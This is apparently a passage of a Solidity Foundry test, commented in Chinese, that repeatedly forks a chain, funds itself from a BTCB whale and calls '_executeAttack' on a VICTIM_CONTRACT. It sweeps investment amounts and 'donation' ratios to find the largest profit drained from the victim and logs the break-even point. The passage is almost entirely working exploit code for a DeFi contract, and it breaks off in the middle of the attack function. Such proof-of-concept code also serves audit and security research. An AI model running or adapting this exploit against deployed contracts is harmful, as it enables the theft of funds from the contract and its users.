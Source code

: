 ```sol
        
        // 保存初始区块号用于回滚
        uint256 initialBlock = block.number;

        // 从最小金额开始测试，每次增加STEP
        for (uint256 amount = MIN_TEST_AMOUNT; amount <= MAX_TEST_AMOUNT; amount += STEP) {
            for (uint256 dofit = 965; dofit <= 975; dofit += 5) {
                // 回滚到初始状态
                vm.rollFork(initialBlock);
                
                // 记录受害者合约初始余额
                uint256 victimBalanceBefore = IERC20(BTCB).balanceOf(VICTIM_CONTRACT);
                
                // 转账初始资金到测试合约
                vm.startPrank(BTCB_WHALE);
                IERC20(BTCB).transfer(address(this), amount);
                vm.stopPrank();
                
                // 执行攻击
                _executeAttack(amount, dofit, 1000 - dofit - 10);
                
                // 记录受害者合约最终余额
                uint256 victimBalanceAfter = IERC20(BTCB).balanceOf(VICTIM_CONTRACT);
                
                // 计算获利（受害者合约损失）
                uint256 profit = victimBalanceBefore > victimBalanceAfter ? 
                                victimBalanceBefore - victimBalanceAfter : 0;
                
                // 计算并记录结果
                console.log(unicode"投入金额: %s BTCB, 捐赠比例: %s%%,  获利: %s BTCB (1e15)", 
                            amount / 1e18, dofit / 10, profit / 1e15);
                
                // 更新最大获利和最佳参数
                if (profit > maxProfit) {
                    maxProfit = profit;
                    bestAmount = amount;
                    bestDonateRatio = dofit;
                }
                
                // 找到盈亏平衡点（首次获利点）
                if (breakEvenPoint == 0 && profit > 0) {
                    breakEvenPoint = amount;
                    console.log(unicode"盈亏平衡点: %s BTCB (捐赠比例: %s%%)", breakEvenPoint / 1e18, dofit / 10);
                }
            }
        }
        
        console.log(unicode"----------------------------------");
        console.log(unicode"最大获利: %s BTCB (1e15)", maxProfit / 1e15);
        console.log(unicode"最佳投入金额: %s BTCB", bestAmount / 1e18);
        console.log(unicode"最佳捐款比例: %s%%", bestDonateRatio / 10);
        console.log(unicode"盈亏平衡点: %s BTCB", breakEvenPoint / 1e18);
    }
    
    // 执行攻击
    function _executeAttack(uint256 initialInvestment, uint256 donatefit, uint256 buyfit) internal {
        // 1. 授权受害者合约使用BTCB
        IERC20(BTCB).approve(VICTIM_CONTRACT, type(uint256).max);
        
        // 2. 捐赠指定比例的资金
        uint256 donateAmount = initialInvestment * donatefit / 1000;
```